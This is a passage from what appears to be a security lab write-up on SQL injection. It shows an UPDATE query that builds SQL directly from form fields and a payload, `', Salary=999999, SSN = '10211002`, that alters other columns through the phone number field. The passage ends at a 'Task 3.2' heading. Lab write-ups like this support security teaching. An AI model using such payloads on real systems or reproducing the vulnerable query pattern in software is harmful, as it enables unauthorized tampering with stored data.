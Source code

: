 **Result:**

![Salary modified](./assets/sqli_task_03_01_03.png)

**Explanation:**

The form executes the following SQL statement to the database:

```sql
UPDATE credential
SET nickname='$input_nickname',
    email='$input_email',
    address='$input_address',
    PhoneNumber='$input_phonenumber'
WHERE ID=$id;
```

In the form, we can pass `', Salary=999999, SSN = '10211002` to form the following SQL statement:

```sql
UPDATE credential
SET nickname='<unknown>',
    email='<unknown>',
    address='<unknown>',
    PhoneNumber='', Salary=999999, SSN = '10211002'
WHERE ID=<unknown>;
```

Even though we are not truly modifying the value of SSN, we still pass the value in the input to ensure that the `'` is closed before `WHERE` clause.

#### Task 3.2

